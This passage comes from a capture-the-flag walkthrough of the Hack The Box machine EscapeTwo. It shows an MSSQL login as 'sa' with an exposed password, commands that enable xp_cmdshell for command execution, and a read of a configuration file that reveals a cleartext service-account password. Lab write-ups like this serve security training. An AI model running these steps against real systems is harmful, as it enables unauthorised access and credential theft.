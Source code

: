 also inside the xls file, according to the user's email addresses, it appears to be related to mssql service (@sequel.htb format, i guess its a hint for mssql service)
##### valuable info
user sa, is the default administrator account that connects and manages MSSQL databases

add sequel.htb to /etc/hosts
```Shell
echo '10.10.11.51 sequel.htb' | sudo tee -a /etc/hosts
```

# Foothold

Now that we have some creds, we can try executing xp_cmdshell:
```Shell
impacket-mssqlclient -port 1433 sequel.htb/sa:'MSSQLP@ssw0rd!'@EscapeTwo.htb
```
aand we are in, now i am about to run 3 commands (one by one), that should allow us to run any command:
```Shell
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
xp_cmdshell "whoami"
```

```Shell
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208) 
[!] Press help for extra shell commands
SQL (sa  dbo@master)> EXEC sp_configure 'xp_cmdshell', 1;
ERROR(DC01\SQLEXPRESS): Line 1: There is insufficient system memory in resource pool 'internal' to run this query.
SQL (-@master)> RECONFIGURE;
ERROR(DC01\SQLEXPRESS): Line 1: There is insufficient system memory in resource pool 'internal' to run this query.
SQL (sa  dbo@master)> xp_cmdshell "whoami"
ERROR(DC01\SQLEXPRESS): Line 1: There is insufficient system memory in resource pool 'internal' to run this query.
```

After some searching through the directories, i came accross a configuration file (.ini) 
```shell
xp_cmdshell "type C:\SQL2019\ExpressAdv_ENU\sql-Configuration.INI"
```
and by viewing it, a cleartext pass can be seen, related to the sqlsvc account
```
WqSZAF6CysDQbGb3
```
then i tried logging in with evil-winrm as sql_svc with the pass i found, but no luck...
